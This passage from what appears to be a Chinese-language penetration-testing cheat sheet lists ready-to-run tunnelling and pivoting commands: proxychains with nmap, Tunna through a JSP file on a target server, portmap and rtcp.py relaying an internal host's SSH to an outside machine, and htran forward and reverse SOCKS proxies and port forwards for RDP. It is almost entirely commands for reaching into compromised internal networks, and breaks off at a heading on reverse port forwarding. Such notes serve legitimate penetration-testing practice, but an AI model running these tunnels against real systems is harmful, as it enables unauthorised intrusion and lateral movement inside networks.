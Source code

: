     socks5 127.0.0.1 4444

proxychains4 nmap -sT -Pn -n 192.168.1.2


## 0x10 Tunna[速度较慢]
https://github.com/SECFORCE/Tunna

    python proxy.py -u http://219.x.x.x/conn.jsp -l 1234 -r 3389 -v 
    rdesktop 127.0.0.1:1234



## 0x11 Linux portmap 端口映射
转发ssh到外网 不太常用

	./portmap -m 2 -p1 6666 -h2 8.8.8.8 -p2 7777    #先在外网执行
	./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 8.8.8.8 -p2 6666  #在内网shell下执行
	ssh 127.0.0.1 -p 7777   #在外网机器上执行
	
	
rtcp.py

	1. 在B服务器上运行：
        ./rtcp.py l:10001 l:10002
        表示在本地监听了10001与10002两个端口，这样，这两个端口就可以互相传输数据了
	2. 在A服务器上运行：
        ./rtcp.py c:localhost:22 c:222.2.2.2:10001
        表示连接本地的22端口与B服务器的10001端口，这两个端口也可以互相传输数据了
	3. 然后我们就可以这样来访问A服务器的22端口了：
        ssh 222.2.2.2 -p 10002
        如果报错ssh_exchange_identification: read: Connection reset by peer  解决方法chmod 400 /etc/ssh/*

	
tunna

	第一步 运行proxy.py 并指定端口 python proxy.py -u http://219.x.x.x/conn.jsp -l 1234 -r 3389 -v
	第二步 本地执行  rdesktop 127.0.0.1:1234
	python2.7 proxy.py -u http://x.x.x.x/conn.jsp -l 1234 -a 172.16.100.20 -r 3389   #-a指定内网的机器

	
htran
正向代理

	服务端      htran.exe -s -bind 8888
	客户端      SocksCap:SOCKS Version 5 服务端IP:8888
	 
反向代理

	客户端      htran.exe -s -listen 1234 8888
	服务端      htran.exe -s -connect 客户端IP 1234
	客户端      SocksCap:SOCKS Version 5 127.0.0.1:8888
	 
正向端口转发

	服务端      htran.exe -p -tran 8888 127.0.0.1 3389
	客户端      RDP 服务端IP:8888
	 
反向端口转发
